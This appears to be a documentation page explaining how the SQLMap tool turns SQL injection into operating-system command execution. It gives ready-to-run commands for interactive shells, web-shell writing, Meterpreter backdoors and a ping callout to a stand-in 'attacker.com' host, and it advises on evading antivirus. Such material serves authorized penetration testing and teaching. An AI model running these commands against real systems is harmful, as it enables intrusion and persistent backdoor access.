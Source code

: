 ```yaml
---
title: OS Command Execution
description: Learn how to execute operating system commands through SQL injection vulnerabilities using SQLMap
---
```


# OS Command Execution

SQLMap provides several methods to execute operating system commands on the target server through SQL injection vulnerabilities. These techniques depend on the database management system and the privileges available.

## Basic OS Command Execution

### Single Command Execution (`--os-cmd`)

To execute a single operating system command:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="whoami"
```

This executes the specified command and returns its output. It's useful for quick verification of command execution capabilities.

### Interactive OS Shell (`--os-shell`)

To obtain an interactive shell:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell
```

This provides an interactive command prompt where you can execute multiple commands on the target system.

## DBMS-Specific Techniques

Different database systems have different mechanisms for command execution:

### MySQL

For MySQL, SQLMap typically uses:
- `SELECT ... INTO OUTFILE` to write a web shell
- User-defined functions (UDFs) if the database user has sufficient privileges

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --dbms=mysql
```

### Microsoft SQL Server

For SQL Server, SQLMap uses:
- `xp_cmdshell` extended stored procedure
- CLR assemblies if `xp_cmdshell` is disabled

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --dbms=mssql
```

### PostgreSQL

For PostgreSQL, SQLMap uses:
- `COPY TO/FROM PROGRAM` functionality
- Custom user-defined functions

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --dbms=postgresql
```

### Oracle

For Oracle, SQLMap uses:
- Java stored procedures
- External tables
- PL/SQL packages

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --dbms=oracle
```

## Advanced Command Execution Options

### Specifying Command Prompt Type

You can specify the type of shell to use:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --os-pwn --msf-path=/path/to/metasploit --tmp-path=/tmp
```

### Out-of-Band Command Execution

For situations where direct command output retrieval is not possible:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="ping -c 4 attacker.com" --technique=T
```

This executes commands that produce observable side effects (like network connections) rather than direct output.

## Establishing Persistent Access

### Meterpreter Shell (`--os-pwn`)

To establish a Meterpreter session using Metasploit:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-pwn --msf-path=/path/to/metasploit
```

This creates a more sophisticated backdoor using Metasploit's capabilities.

### Custom Backdoor (`--os-smbrelay`)

To create a custom backdoor:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-smbrelay
```

<Note title="Ethical and Legal Warning">
OS command execution capabilities should only be used in authorized security testing scenarios. Unauthorized access to systems is illegal and unethical.
</Note>

## Troubleshooting Command Execution

If command execution fails, try these approaches:

1. Verify the database user has sufficient privileges
2. Try different command execution techniques with `--technique`
3. Use stacked queries if supported by the injection point
4. Try different output retrieval methods with `--tmp-path`
5. Check if antivirus or security controls are blocking execution

Remember that command execution capabilities vary significantly based on:
- The specific DBMS version
- Database user privileges
- Server configuration
- Security controls in place
